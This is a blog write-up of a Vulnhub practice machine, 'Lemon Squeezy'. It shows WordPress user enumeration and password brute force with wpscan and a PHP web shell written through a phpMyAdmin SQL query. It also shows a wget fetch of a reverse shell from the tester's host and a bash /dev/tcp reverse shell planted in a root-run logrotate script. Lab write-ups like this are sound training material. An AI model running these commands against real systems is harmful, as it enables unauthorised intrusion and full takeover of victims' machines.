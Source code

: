 ```yaml
---
layout: single
title: "Vulnhub Write-up: Lemon Squeezy"
excerpt: "Writeup for an OSCP-like machine created by my hackin' homie"
date: 2020-05-13
header:
  teaser: #/assets/images/Stripe-Vulnhub/vulnhub.png
  teaser_home_page: true
classes: wide
categories:
  - vulnhub
  - infosec
tags:
  - enumeration
  - wordpress
  - sql
---
```




My study partner and former colleague recently created an OSCP-like machine for Vulnhub, as my machine Stripes already has a writeup available I felt his machine may be a bit lonely so I decided to be the first one to draw blood and create this writeup.
I would rate this box as easy with a couple of curveballs but overall pretty straightforward and absolutely perfect for beginners to sink their teeth into.

You can download the machine from vulhub: https://www.vulnhub.com/entry/lemonsqueezy-1,473/

## Summary 

- Scan wordpress to obtain both usernames and passwords
- Obtain PHPmyadmin creds and login
- Create backdoor by abusing SQL CLI access
- Keep squeezing the machine until the hidden escalation vector is identified

## Enumeration 
### Nmap :

![nmap](/assets/images/lemonsqueezy/1.jpg)


Full port scan shows just 80 (HTTP) open.
Navigating to 80 shows just the default apache page.
Gobuster shows that wordpress is installed, for good measure I started a dirbuster scan in the background in case wordpress was a red herring, 
however was confident that enumerating with wpscan would yield some information.

        wpscan --url http://lemonsqueezy/wordpress --enumerate u

As below we get 2 users:

![users](/assets/images/lemonsqueezy/2.JPG)

Next I ran good old rockyou against them:

        wpscan --url http://lemonsqueezy/wordpress --passwords /usr/share/wordlists/rockyou.txt --usernames lemon,orange

The first password is found very fast, I left the attack going on lemon but am highly doubtful it will find anything, I will move onto logging in:


![password](/assets/images/lemonsqueezy/3.JPG)

After seeing we will not be able to upload a shell, I had a look around the panel and found a draft post with a password in it.

I tried it in phpmyadmin first, as the draft was created by the current user (orange), and was able to log into phpmyadmin as orange with this PW first try

I had a brief look for exploits for the phpmyadmin version however decided to see what I could and couldn't do in here first.
Turns out I can set a new password value for lemon, which should allow me to log into the admin panel in WP and get a shell.
I changed the password to "password" and logged in.


![change_pass](/assets/images/lemonsqueezy/4.JPG)

Looks like the themes cannot be edited and media cannot be uploaded, seems to be intentionally hardened against this vector - so we will put a malicious plugin together and get shell this way.
I used a handy tool called wordpwn to spin a malicious plugin together - however I failed to realise that ALL upload functionailty is broken - so this did not work.
I went back to Phpmyadmin where I am unable to create new databases.
What I can do however is run direct sql queries.
I used this to create a webshell and confirm code execution as below:

        select "<?php echo shell_exec($_GET['cmd']);?>" into outfile '/var/www/html/wordpress/wp-content/uploads/shell.php'

confirmed code execution with whoami:

        http://lemonsqueezy/wordpress/wp-content/uploads/shell.php?cmd=whoami

![change_pass](/assets/images/lemonsqueezy/5.JPG)

I tried a few reverse shell oneliners however none worked so I gave up and simply hosted a php reverse shell, 
amended the IP and then grabbed with wget:

         http://lemonsqueezy/wordpress/wp-content/uploads/shell.php?cmd=wget%20http://192.168.20.132/1.php

I then started a listener, navigated to the shell I just grabbed and now have a proper low priv foothold:

        http://lemonsqueezy/wordpress/wp-content/uploads/1.php


![low_priv](/assets/images/lemonsqueezy/6.JPG)

I upgraded my shell because I am both lazy and fancy

   In remote terminal:
   
        python3 -c 'import pty; pty.spawn("/bin/bash")'
        Ctrl-Z
	
   In Kali terminal:
   
        stty -a
        stty raw -echo
        fg
        stty rows 20
	
Ta-da, now I have handy features such as autocomplete, access to bash history etc.
One of the first things I do with a www-data shell is go straight to /var/www/ and snoop around for additional web apps and credentials,
I was surprised to see user.txt in there, I did not think I would be able to read yet, however I was able to grab the flag - I suspect this means that we will 
either be pivoting straight to root or be able to read root flag as lemon/orange

![low_priv](/assets/images/lemonsqueezy/7.JPG)

*fun fact, flag decodes to "Music can change your life, "


## Privilege Escalation 

I did not find out anything in here I did not already know, I also manually checked for local listening ports and sudo commands aswell as snooped around orange's directory, so I decided to infiltrate some enumeration scripts to finish the rest of the groundwork for me.
After trying linenum and linpeas only linux smart enum gave me some useful info, I suspect this is because the binary was hidden by being called logrotate
https://github.com/diego-treitos/linux-smart-enumeration

![logrotate](/assets/images/lemonsqueezy/8.JPG)

I overwrote the code inside logrotate with a generic bash reverse shell one liner and got a shell back as root.

        #!/bin/bash
        bash -i >& /dev/tcp/192.168.20.132/8080 0>&1

![root_proof](/assets/images/lemonsqueezy/9.JPG)

The flag by itself does not decode, however if you add it to the second flag you get a profound bit of wisdom.
I will leave this to the solver to find this :)

All in all I think this was a fantastic OSCP prep machine, I personally preffered the user foothold over the privilege escalation but it certainly made me "squeeze" a bit harder huehuehue




